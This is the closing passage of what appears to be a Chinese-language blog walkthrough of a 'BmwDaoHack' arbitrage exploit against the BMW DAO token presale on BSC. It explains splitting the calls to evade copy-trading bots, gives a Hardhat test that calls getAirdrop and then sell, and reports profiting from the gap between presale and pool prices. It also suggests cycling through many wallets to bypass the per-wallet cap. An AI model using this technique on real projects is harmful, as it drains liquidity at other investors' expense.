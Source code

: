 ```
}
```

# 6 分开调用的原因

市场上有很多复制机器人，分步操作可防止复制机器人复制你的交易并提高gas在你之前打包交易上链，套利空间就会减少。

# 7 使用Hardhat测试合约

```
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("BmwDaoHack", function() {
    it("init params", async function () {
        [deployer, ...users] = await ethers.getSigners();
    });
    it("BmwDaoHack Test", async function() {
        const BmwDaoHack = await ethers.getContractFactory("BmwDaoHack");
        const bmwDaoHack = await BmwDaoHack.deploy();
        
        await bmwDaoHack.deployed();

        await bmwDaoHack.connect(deployer).getAirdrop({ value: ethers.utils.parseEther("0.01") });
        await bmwDaoHack.connect(deployer).sell();
    });
});
```

# 8 执行结果

用**1BNB**私募了**1000BMW**代币

因流动池中**1BMW**可换**0.00146513BNB**

将私募的**1000BMW**换成**1.46513BNB**

完成套利！！！

按照官网中[http://bmwdao.co/](http://bmwdao.co/)所说：每个钱包最多只能私募1BNB的代币。

可以做个循环用多个钱包来进行套利。

# 9 后语

本文的作者对一切行为不负责，只秉承着技术交流分享。

文章发出前已联系项目方，你在操作上的盈利、亏损等由自己或项目方承担。

关注推特（[@TokenKnow](https://twitter.com/TokenKnow)），交流更多。